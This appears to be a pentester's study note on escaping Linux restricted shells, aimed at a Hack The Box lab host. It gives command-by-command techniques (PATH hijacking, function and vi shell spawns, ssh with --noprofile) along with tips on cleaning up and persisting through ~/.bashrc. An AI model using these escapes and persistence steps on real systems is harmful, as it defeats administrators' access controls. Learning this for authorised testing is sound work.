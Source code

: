 ### 1. Technique Name:

Escaping Restricted Shells
### 2. Summary:

Restricted shells (such as `rbash`, `rksh`, `rzsh`) are limited versions of standard Linux shells meant to constrain user actions. These restrictions may prevent changing directories, running non-whitelisted commands, or setting environment variables. However, creative abuse of shell behavior—especially command substitution, chaining, or improper script handling—can allow an attacker to bypass these controls and regain full shell access.
### 3. Conditions / Requirements:

- Access to a restricted shell session (e.g., via SSH or a restricted user account)    
- One or more of the following must be permitted:
    - Command substitution or variable expansion
    - Ability to define or call functions 
    - Permission to modify environment variables    
    - Access to binaries like `vi`, `less`, `awk`, `bash`, `scp`, etc.
### 4. Enumeration Steps:
#### A. Determine Shell Type:

```bash
echo $0
ps -p $$
```
#### B. Check Shell Capabilities:

Try common commands:

```bash
cd /
export PATH=/tmp
bash
```

Check environment:

```bash
env
echo $PATH
```
### 5. Exploitation Steps:
#### A. Command Substitution:

```bash
ls -l `pwd`
```

→ Executes `pwd` even if it's not directly allowed
#### B. Command Chaining:

```bash
ls -l; whoami
```

→ Semicolon chains commands
#### C. Command Execution via Built-ins:

```bash
echo $(id)
```

→ Executes `id` using command substitution
#### D. Modifying PATH:

```bash
export PATH=.:$PATH
echo "/bin/bash" > ls
chmod +x ls
./ls
```

→ Hijacks a built-in command with a malicious binary
#### E. Using Shell Functions:

```bash
foo() { /bin/bash; }
foo
```
#### F. Launching an Unrestricted Shell via SSH:

```bash
ssh htb-user@10.129.37.149 -t "bash --noprofile"
```

→ This bypasses restrictions imposed by login shell configuration by directly invoking `bash` without sourcing profiles
#### G. Spawning Shells from Allowed Binaries:

If binaries like `vi`, `less`, `awk`, or `python` are accessible:

```bash
vi
:set shell=/bin/bash
:shell
```
### 6. Post-Exploitation Tips:

- Always clean up artifacts like temporary functions or PATH hijack binaries    
- After escaping, assess what new access you have (e.g., can you now modify files or escalate privileges?)
- Use `tty` and `script` utilities to stabilize shell if needed
- If persistence is needed, consider writing to `~/.bashrc` or `~/.profile` if writeable
### 7. Example / Notes:

- Command substitution inside `ls`:
   
```bash
ls -l `pwd`
```
 
- SSH bypass with `--noprofile`:
   
```bash
ssh htb-user@10.129.37.149 -t "bash --noprofile"
```
 
   → Prevents restrictive profiles like `.bash_profile` or `.bashrc` from being sourced

- PATH injection trick:
   
```bash
echo "/bin/bash" > fake
chmod +x fake
export PATH=.:$PATH
fake
```
 
- Command chaining to abuse relaxed syntax:

```bash
echo Hello; /bin/bash
```
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Restricted_Shell_Escape